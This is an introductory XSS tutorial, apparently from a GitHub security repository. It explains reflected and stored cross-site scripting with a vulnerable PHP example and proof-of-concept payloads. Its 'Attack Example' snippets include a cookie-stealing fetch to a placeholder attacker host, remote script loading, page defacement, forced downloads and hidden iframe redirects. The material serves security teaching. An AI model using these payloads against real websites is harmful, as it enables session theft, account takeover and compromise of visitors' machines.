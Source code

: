 # XSS 101
## 1. What is XSS?

![xss-popup](https://github.com/GTekSD/SUASS/assets/55411358/3df669f0-6c57-4933-9c6f-fffdb76bb9f3)

Fig. 1 – A classic XSS popup.

Cross-site scripting (XSS) is both the name of the most common vulnerability in web applications and the exploitation method performed against it. XSS attacks abuse the dynamic way websites interact with their clients, the browsers. It makes possible, for an attacker, to control the victim’s browser and his/her interaction with a given vulnerable website. To display back content provided or controlled by an user, like an URL parameter or an input field, a flawed application opens the door to manipulation of this content. This manipulation, generically called injection, is the XSS attack.

Browsers display content using a mix of HTML (basically a text formatting language) and a programming language called JavaScript. Among other things, JavaScript is responsible for making things run in response to events in the context of an application. Another window opening when a page loads, the drag and drop of elements of the page and any changes made to the it on the fly (without the need to reload it), for example, are things done by JavaScript.

JavaScript code comes between the HTML tags, <script> and </script> (the opening and closing ones, respectively) or in the form of an external include by means of the “src” (source) attribute of this same tag. In this way, libraries (reusable pieces of code) can be added to the current page and executed by browser in that context.

So when an attacker is able to inject this pair of tags into a page, any JavaScript code can be executed if there’s no filter in place (which is usually the vast majority of cases). Because anything an user in a browser can do also can be done by JavaScript, an attacker has total control over it.

JavaScript can also appears in common HTML elements, the regular tags. By means of event handlers inside them, like “onload” (when an page element is loaded by browser) or “onmouseover” (when a mouse pointer hovers over something), JavaScript code can also be executed. It increases considerably the numbers of vectors for an XSS attack.

### Types of XSS

Cross-site scripting can occur in the context of an application or not. Out of the context of an application is very rare but more dangerous and it will not be covered here. Focusing on the application, XSS can be caused by server side code (code sent by web server) or client side code (code processed by browser from code sent by web server).

Code sent by web server is the source code. It is processed by browser, with the help of the JavaScript engine, to create the elements of the document in a programmatic manner. This is called DOM (Document Object Model) and it’s generated as soon as the source code arrives.

So we have source-based and DOM-based types of XSS in a context of an application. Both have the following execution types.

Source-based:    |     Reflected      |      Stored

DOM-based:       |     Reflected      |      Stored

When the website or application just reflects back content maliciously manipulated by user (usually in the URL), we have a reflected XSS attack. This reflection, as we saw, affects the way browsers display the page and how they process things and behave. Take the following PHP code:
```
    $username = $_GET[‘user’];

    echo “<h1>Hello, ” . $username . “!</h1>”;
```

Which would display the user name taken from URL like
```
    http://mydomain.com/hello.php?user=John
```

In source code, it would be:
```
    <h1>Hello, John!</h1>
```
![netsparker-post-1](https://github.com/GTekSD/SUASS/assets/55411358/41c3323b-7eb2-4b65-b042-77418d9ee67d)
Fig. 2 – Example of parameter value reflection.

So, if an attacker use the URL “http://mydomain.com/hello.php?user=<script>alert(1)</script>” he/she will be able to make the browser generate the following source code:
```
    <h1>Hello, <script>alert(1)</script>!</h1>
```
Triggering the classic javascript alert box.

![netsparker-post-2](https://github.com/GTekSD/SUASS/assets/55411358/4c4044b8-27b7-4157-8e1e-c7f04a968a80)
Fig. 3 – The XSS being triggered.

When the website or application stores user input in a database or a file to display it later, like a field in a profile or a comment in a forum, the resulting attack is called persistent or stored XSS. Every user that sees this stored content is a potential victim.

While in this last attack, an user just needs to open or navigate to an infected page to be attacked, in the reflected one an user usually must click on attacker’s link, which contains what we call vector or payload, the code used for the XSS attack. Although seeming less dangerous than stored version, a reflected XSS can also be invisibly embedded into any other website and executes from another browser tab or window in the context of the target application.

### XSS Basic Examples

Usually, for a proof of concept (PoC) of an XSS attack exploring source-based flaws, security testers use one the following code.

#### 1. With <script> tag
```
    <script>alert(1)</script>
```
or
```
    <script src=//HOST/SCRIPT></script>
```

With HOST being a domain or IP address controlled by tester and SCRIPT being a script with alert(1) as content, like in:
```
    <script src=//brutelogic.com.br/1.js></script>
```

#### 2. With regular HTML tags
There are two types:

**a. Event-based**
```
    <TAG EVENT=alert(1)>
```

With TAG being any HTML or XML tag and EVENT being a supported event handler like:
```
    <body onload=alert(1)>
```
```
    <img src=1 onerror=alert(1)>
```
```    
    <svg onload=alert(1)>
```
```    
    <x onmouseover=alert(1)>
```

**b. Resource-based**
```
    <TAG RESOURCE=javascript:alert(1)>
```

With TAG being a proper HTML tag that supports a RESOURCE like:
```
    <iframe src=javascript:alert(1)>
```
```
    <object data=javascript:alert(1)>
```

All these make a window pop-up appears with the number one inside. Although useful to show the execution of JavaScript and then the possibility of hooking the browser for control, it’s better to prove that execution in the context of the application. For this, `alert(1)` is changed to `alert(document.domain)`.
      
Example:
```
    <script>alert(document.domain)</script>
```
These are just to prove the vulnerability; for attacks in the wild, a victim of an XSS attack usually will not be able to see anything while his/her browser will perform the attacker’s desired actions.

## 2. What Can be Done With XSS?

These are the main actions that can be performed by an attacker when exploiting an XSS flaw.

### 1. Cross-Site Request Forgery (CSRF)

JavaScript execution in a target domain makes possible for an attacker to capture an anti-CSRF token or nonce. That is the main defense for an application against a Cross-Site Request Forgery (CSRF) attack and the ability to steal that token allows an attacker to perform any action in behalf of victim.

If a victim is an administrator of a Content Management System (CMS) like the open-source WordPress, it’s possible to completely takeover the website like demonstrated here.  As long as the attacker knows how to perform actions that victim can do by means of HTTP requests, it’s possible to change victim’s recovery email if there’s no password protection leading to account takeover.

#### Attack Example:
```
    <script src=//brutelogic.com.br/MYSCRIPT.js></script>
```
Where MYSCRIPT.js is a remote script with JavaScript code to perform all HTTP requests needed to achieve desired victim’s action in application.

### 2. Steal an user session on the vulnerable website (including admins)

Browsers use a small text file to store locally important data about a given website. This file contains what we call cookies, pairs of variable and value that have some meaning for the application that sent them to browser. Cookies are used to identify a person after he logged into an application, so server has no need to ask for credentials again every time an user request a resource. While cookies are valid (they expire after a certain time), an user session is active in the application. If these valid cookies are stolen, the thief can impersonate that user and interact with application in the same way the real user does, without even knowing his password.

This gives access to all personal data stored about an user, like his telephone number, home address and even his/her credit card details in an e-commerce website, for example. For website administrators (admins), an XSS attack can lead to takeover of his/her website and even the machine where it is hosted.

#### Attack Example:
```
    <svg onload=fetch('//HOST/?cookie='+document.cookie)>
```
Where HOST is a domain or IP address controlled by attacker.

### 3. Capture the keys pressed by the user

By being able to capture what an user types in form fields, like the ones for login (username and password), an attacker can also compromise an user account in a given website.

### 4. Deface the page, serving any type of content

Users can be tricked into thinking that visited website was hacked or it’s not functional, which can lead to panic or the impossibility to perform actions in the application like buying an item.

#### Attack Example:
```
    <svg onload="document.body.innerHTML='<img src=//HOST/IMAGE>'">
```
Where HOST is a domain or IP address controlled by attacker and IMAGE is a full screen image with a “Hacked by” message, for example.

### 5. Trick the user into giving his/her credentials by means of a fake HTML form

With the ability to serve any content, an attacker can convince an user to enter or reenter his/her credentials in the application, but this time sending them to an attacker.

### 6. Crash the browser (local denial of service)

Very rare use, but possible. An attacker may want to keep away a certain rival in an auction, for example, by making his/her browser unresponsive.

### 7. Force download of files

It’s straightforward to make user’s browser download any file with XSS, but not necessarily executing it, which would give access to user machine. Unfortunately, due to the fact that an attacker has control over several other aspects of the trusted website, seems not so difficult to also trick the user into open it.

#### Attack Example:
```
    <a href=//HOST/FILE download=FILENAME>Download</a>
```
Where HOST is a domain or IP address controlled by attacker, FILE is the file attacker want the victim to download and FILENAME is the name of the file in victim’s machine (user can be forced to download an executable file while saving it as an image, for example).

### 8. Redirect user’s browser to another website where his/her machine can be compromised by memory exploits

Again, with the aim to takeover the user machine, an attacker can redirect the browser invisibly to another web address where another prepared application will try to break the browser barrier to access the user operating system (which would lead to compromise). If user has an outdated or vulnerable browser, attacker has great chances of success.

#### Attack Example:
```
    <iframe src=//HOST/ style=display:none></iframe>
```
Where  is a domain or IP address controlled by attacker.
